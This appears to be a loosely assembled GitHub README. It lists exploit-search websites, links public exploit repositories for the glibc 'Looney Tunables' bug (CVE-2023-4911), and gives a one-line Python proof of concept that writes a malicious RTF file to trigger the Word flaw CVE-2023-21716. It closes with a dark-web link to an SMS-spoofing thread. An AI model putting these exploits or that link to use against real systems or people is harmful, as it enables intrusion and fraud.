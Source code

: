 ## Table of Contents

- [Looney Tunables](#looney\tunables)
        - [0 - Sploius is an amazing site that utilize multi exploit db's at once to search for vulnerabilities .](#0\-\Sploius\is\an\amazing\site\that\utilize\multi\exploit\db's\at\once\to\search\for\vulnerabilities\.)
        - [1 - kitploit exploit search feature is really amazing to check for exploits, vulns and hacking tool](#1\-\kitploit\exploit\search\feature\is\really\amazing\to\check\for\exploits,\vulns\and\hacking\tool)
        - [2 - The OG of exploit's exploitdb it is just a popular exploit serchers for hackers alike.](#2\-\The\OG\of\exploit's\exploitdb\it\is\just\a\popular\exploit\serchers\for\hackers\alike.)
        - [3 -vulners is a website and a NSE for nmap to search for vulns , you can utilize nmap with combination of vulners to automate vuln scanning.](#3\-vulners\is\a\website\and\a\NSE\for\nmap\to\search\for\vulns\,\you\can\utilize\nmap\with\combination\of\vulners\to\automate\vuln\scanning.)
        - [4 - cve mitre is really really good to use to search for products CVE'S not found on exploitdb and their risk level.](#4\-\cve\mitre\is\really\really\good\to\use\to\search\for\products\CVE'S\not\found\on\exploitdb\and\their\risk\level.)
        - [5 - Packetstom is a stop for when you dont find anything on the product vuln , the chance of you finding something here after all failed is ok.](#5\-\Packetstom\is\a\stop\for\when\you\dont\find\anything\on\the\product\vuln\,\the\chance\of\you\finding\something\here\after\all\failed\is\ok.)



# Looney Tunables
#CVE-2023-4911
[https://github.com/leesh3288/CVE-2023-4911](https://github.com/leesh3288/CVE-2023-4911)  
[https://github.com/RickdeJager/CVE-2023-4911](https://github.com/RickdeJager/CVE-2023-4911)  
[https://github.com/Green-Avocado/CVE-2023-4911](https://github.com/Green-Avocado/CVE-2023-4911)  
[https://haxx.in/files/gnu-acme.py](https://haxx.in/files/gnu-acme.py)
https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt

##### 0 - Sploius is an amazing site that utilize multi exploit db's at once to search for vulnerabilities .  
[https://sploitus.com/](https://sploitus.com/)  
  
##### 1 - kitploit exploit search feature is really amazing to check for exploits, vulns and hacking tool  
[https://exploit.kitploit.com/](https://exploit.kitploit.com/)  
  
##### 2 - The OG of exploit's exploitdb it is just a popular exploit serchers for hackers alike.  
[https://www.exploit-db.com/](https://www.exploit-db.com/)  
  
##### 3 -vulners is a website and a NSE for nmap to search for vulns , you can utilize nmap with combination of vulners to automate vuln scanning.  
[https://vulners.com/](https://vulners.com/)  
  
##### 4 - cve mitre is really really good to use to search for products CVE'S not found on exploitdb and their risk level.  
[https://cve.mitre.org](https://cve.mitre.org)  
  
##### 5 - Packetstom is a stop for when you dont find anything on the product vuln , the chance of you finding something here after all failed is ok.  
[https://packetstormsecurity.com/](https://packetstormsecurity.com/)


**CVE-2023-21716 (Microsoft Word RCE) Python PoC**

CNA:  Microsoft Corporation  
Base Score:  9.8 CRITICAL  
Vector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H  
  
Note:  
It is a heap corruption vulnerability in Microsoft Word’s RTF parser that, if triggered, allows attackers to achieve remote code execution with the privileges of the victim. The flaw does not require prior authentication: attackers can simply send a booby-trapped RTF file to the victim(s) via email.  
“Microsoft Office 2010 and later use Protected View to limit damage caused by malicious documents procured from untrusted sources. Protected View is in effect when this vulnerability manifests and thus an additional sandbox escape vulnerability would be required to gain full privileges  
  

  

  

Code:

```python
open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
```

http://envoyyvazgz2wbkq65md7dcqsgmujmgksowhx2446yep7tgnpfvlxbqd.onion/Thread-sms-spoofing


